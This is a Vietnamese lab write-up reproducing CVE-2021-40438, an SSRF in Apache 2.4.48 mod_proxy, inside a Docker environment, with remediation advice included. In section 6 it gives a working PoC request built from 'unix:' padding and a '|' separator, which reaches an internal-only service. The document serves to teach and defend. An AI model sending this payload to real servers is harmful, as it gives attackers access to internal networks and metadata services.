





# CVE-2021-40438 – BookVerse Lab | Write-up Kỹ Thuật

---

## 1. Tóm tắt

Write-up này ghi lại quá trình tái hiện có kiểm soát lỗ hổng **CVE-2021-40438** — một lỗ hổng **Server-Side Request Forgery (SSRF)** tồn tại trong **Apache HTTP Server 2.4.48 trở về trước** khi module `mod_proxy` được bật.

**Thành phần bị ảnh hưởng:**

```
Apache HTTP Server 2.4.48 + mod_proxy
```

**Các dịch vụ phụ trợ trong lab (không chứa lỗ hổng):**

| Dịch vụ          | Vai trò                                    |
|------------------|--------------------------------------------|
| frontend         | Giao diện BookVerse UI                     |
| backend          | Flask API                                  |
| internal-service | Mục tiêu nội bộ để quan sát SSRF           |
| tomcat           | Backend AJP để tái hiện điều kiện CVE      |

---

## 2. Kiến trúc lab

```
Kali / Burp
   |
   v
192.168.1.2:8000
   |
   v
Apache HTTP Server 2.4.48 + mod_proxy
   |
   |-- /app/   --> frontend:3000
   |-- /api/   --> backend:5000
   |-- /       --> tomcat:8009 (qua AJP)
   |
   `-- URI được tạo thủ công --> internal-service:9090/internal/secret
```

Chỉ Apache được expose ra máy host:

```yaml
apache:
  ports:
    - "0.0.0.0:8000:80"
```

Dịch vụ nội bộ **không** được expose ra ngoài:

```yaml
internal-service:
  expose:
    - "9090"
```

---

## 3. Tại sao có route `/app/`

Cấu hình ban đầu dùng catch-all:

```apache
ProxyPass / http://frontend:3000/
```

Điều này khiến mọi request — kể cả request khai thác CVE — đều bị bind vào frontend worker, dẫn đến lỗi `httpd-UDS` thay vì SSRF thành công.

Cấu hình đã sửa chuyển BookVerse UI sang `/app/`:

```apache
ProxyPass        /app/  http://frontend:3000/
ProxyPassReverse /app/  http://frontend:3000/
```

Và dành `/` cho AJP route:

```apache
ProxyPass        /  ajp://tomcat:8009/ disablereuse=On
ProxyPassReverse /  ajp://tomcat:8009/
```

Thiết kế này khớp với các reproduction phổ biến của CVE-2021-40438 — nơi `mod_proxy` xử lý một backend route có thể bị nhầm lẫn bởi URI `unix:` được tạo thủ công.

---

## 4. Xác minh route bình thường

### 4.1 Route `/` → Apache Tomcat (AJP)

Truy cập `http://192.168.1.2:8000/` từ trình duyệt trả về trang mặc định của **Apache Tomcat/8.5.19**. Đây là bằng chứng route `/` đang được Apache chuyển tiếp đến Tomcat qua AJP — đúng như cấu hình mong muốn.



Xem lại trong Burp Suite, request `GET /` trả về HTTP 200 với body HTML của Tomcat. Response headers quan trọng:

```
Server: Apache/2.4.48 (Unix)
X-Lab-Gateway: Apache HTTP Server 2.4.48 mod_proxy
Content-Type: text/html;charset=UTF-8
```

**Luồng thực tế:**

```
Burp → Apache 2.4.48 → tomcat:8009 (AJP)
```

Điều này xác nhận Apache đang đứng trước Tomcat và hoạt động như một reverse proxy.



---

### 4.2 Route `/api/books` → Flask Backend

**Request:**

```http
GET /api/books HTTP/1.1
Host: 192.168.1.2:8000
```

**Luồng thực tế:**

```
Burp → Apache 2.4.48 → backend:5000
```

Response trả về JSON danh sách sách. Response headers:

```
Server: Werkzeug/3.1.8 Python/3.11.15
X-Lab-Gateway: Apache HTTP Server 2.4.48 mod_proxy
Content-Type: application/json
```

- `Server: Werkzeug` → Flask backend sinh ra response.
- `X-Lab-Gateway` → response đã đi qua Apache.



---

## 5. Phát hiện lỗ hổng

Luồng suy luận:

1. Bề mặt công khai duy nhất là `192.168.1.2:8000`.
2. Các path khác nhau trả về fingerprint backend khác nhau:
   - `/app/` → BookVerse frontend.
   - `/api/books` → Flask/Werkzeug.
   - `/` → Apache Tomcat.
3. Đây là dấu hiệu của một reverse proxy đứng trước nhiều dịch vụ.
4. Xác nhận phiên bản Apache trong container:

```bash
docker compose exec apache httpd -v
# Server version: Apache/2.4.48
```

5. `httpd.conf` xác nhận các module liên quan:

```apache
LoadModule proxy_module         modules/mod_proxy.so
LoadModule proxy_http_module    modules/mod_proxy_http.so
LoadModule proxy_ajp_module     modules/mod_proxy_ajp.so
```

6. **Apache 2.4.48 + mod_proxy** khớp với đặc điểm của **CVE-2021-40438**.

---

## 6. Khai thác

### 6.1 Mục tiêu nội bộ

```
http://internal-service:9090/internal/secret
```

Docker Compose cung cấp DNS nội bộ, cho phép Apache phân giải tên dịch vụ. Dịch vụ này không được publish ra ngoài vì chỉ dùng `expose`, không dùng `ports`.

### 6.2 Xây dựng payload

CVE-2021-40438 khai thác cách `mod_proxy` xử lý URI dạng `unix:`. Khi path Unix socket đủ dài, phần sau ký tự `|` được Apache dùng làm URL đích thực sự — gây ra SSRF.

Script Python tạo payload:

```python
A = "A" * 4200
print(f"GET /?unix:{A}|http://internal-service:9090/internal/secret HTTP/1.1")
print("Host: 192.168.1.2:8000")
print("Connection: close")
print()
```

**Phân tích payload:**

| Thành phần          | Ý nghĩa                                             |
|---------------------|-----------------------------------------------------|
| `/?unix:`           | Kích hoạt xử lý UDS URI đặc biệt trong mod_proxy   |
| `4200 x A`          | Padding để vượt qua giới hạn path                   |
| `\|`                | Ký tự phân tách giữa UDS path và URL đích           |
| `http://...`        | URL nội bộ do attacker chọn                         |



---

### 6.3 Gửi request và kết quả

Request được gửi từ Burp Repeater đến `http://192.168.1.2:8000`.

**Response nhận được:**

```http
HTTP/1.1 200 OK
Server: Werkzeug/3.1.8 Python/3.11.15
X-Lab-Gateway: Apache HTTP Server 2.4.48 mod_proxy
Content-Type: application/json
Content-Length: 182
```

```json
{
  "message": "This endpoint should not be directly reachable from outside the Docker network.",
  "requester_ip": "172.18.0.6",
  "service": "internal-service",
  "x_forwarded_for": "172.18.0.1"
}
```

Apache đã thực hiện request đến `internal-service:9090/internal/secret` thay mặt cho attacker — **SSRF thành công**.



---

## 7. Tác động

| Điểm                   | Giá trị                                      |
|------------------------|----------------------------------------------|
| Attacker tiếp cận      | `192.168.1.2:8000` (public)                  |
| Dữ liệu nhận được từ   | `internal-service:9090/internal/secret`      |
| Phía thực hiện request | Apache (server-side)                         |

Nếu tái hiện trong môi trường thực, lỗ hổng này có thể cho phép attacker:

- Tiếp cận các HTTP service nội bộ không được expose ra internet.
- Bypass các giả định về biên giới mạng.
- Tương tác với admin panel hoặc metadata service nội bộ (ví dụ AWS IMDSv1).
- Pivot từ reverse proxy công khai vào hạ tầng private.

---

## 8. Khắc phục

1. **Nâng cấp Apache** lên phiên bản ổn định hiện tại (ví dụ `httpd:2.4.62` trở lên).
2. **Tránh dùng `ProxyPass /` catch-all** trừ khi thực sự cần thiết.
3. **Giới hạn proxy module** — chỉ load những module cần dùng.
4. **Ngăn reverse proxy** kết nối đến các mạng nội bộ nhạy cảm theo mặc định.
5. **Áp dụng egress filtering** từ container hoặc host chạy Apache.
6. **Giám sát outbound request** từ reverse proxy.
7. **Kiểm tra kỹ cấu hình proxy** khi thêm AJP, UDS, hoặc các quy tắc phức tạp.

**Kế hoạch xác minh bản vá:**

1. Chạy Apache 2.4.48 → xác nhận SSRF.
2. Nâng lên `httpd:2.4.62`.
3. Gửi lại cùng PoC request.
4. Xác nhận `internal-service` **không** nhận `GET /internal/secret` nữa.

---

## 9. Bài học rút ra

- Đừng chỉ tin vào header `Server` khi có reverse proxy — response có thể hiện `Werkzeug` hoặc `Tomcat` nhưng Apache vẫn là gateway thực sự.
- `ProxyPass /` là catch-all rất rộng, có thể che giấu hoặc làm sai lệch hành vi khai thác.
- Tên dịch vụ Docker Compose hoạt động như DNS nội bộ.
- `ports` publish dịch vụ ra host; `expose` chỉ visible trong Docker network.
- **Thành phần bị lỗi là Apache `mod_proxy`** — không phải Flask, nginx, Tomcat hay frontend.

---

## 10. Tài liệu tham khảo

- Apache HTTP Server 2.4 Vulnerabilities: https://httpd.apache.org/security/vulnerabilities_24.html
- NVD CVE-2021-40438: https://nvd.nist.gov/vuln/detail/CVE-2021-40438
- Fastly – Phân tích CVE-2021-40438: https://www.fastly.com/blog/apache-redux-preventing-server-side-request-forgery-via-cve-2021-40438
